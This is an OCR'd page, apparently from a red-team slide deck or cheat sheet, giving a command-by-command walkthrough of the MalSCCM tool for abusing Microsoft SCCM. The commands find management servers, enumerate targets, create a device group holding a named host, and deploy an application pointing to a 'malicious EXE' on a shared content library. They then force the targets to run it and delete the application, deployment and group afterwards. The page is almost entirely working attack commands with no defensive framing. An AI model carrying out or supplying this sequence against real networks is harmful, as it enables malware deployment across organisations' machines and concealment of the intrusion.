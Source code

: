 # Page 6

* Compromise client, use locate to find management server

MalSCCM.exe locate

* Enumerate over WMI as an administrator of the Distribution Point

MalSCCM.exe inspect /server: /groups

* Compromise management server, use locate to find primary server

Use inspect on primary server to view who you can target

MalSCCM.exe inspect /all MalSCCM.exe inspect /computers MalSCCM.exe inspect /primaryusers MalSCCM.exe inspect /groups Create a new device group for the machines you want to laterally move too

MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device MalSCCM.exe inspect /groups Add your targets into the new group

MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL Create an application pointing to a malicious EXE on a world readable share : SCCMContentLib$

MalSCCM.exe app /create /name:demoapp /uncpath:"\BLORE-SCCM\SCCMContentLib$\localthread.exe" MalSCCM.exe inspect /applications Deploy the application to the target group

MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment MalSCCM.exe inspect /deployments Force the target group to checkin for updates

MalSCCM.exe checkin /groupname:TargetGroup Cleanup the application, deployment and group

MalSCCM.exe app /cleanup /name:demoapp MalSCCM.exe group /delete /groupname:TargetGroup
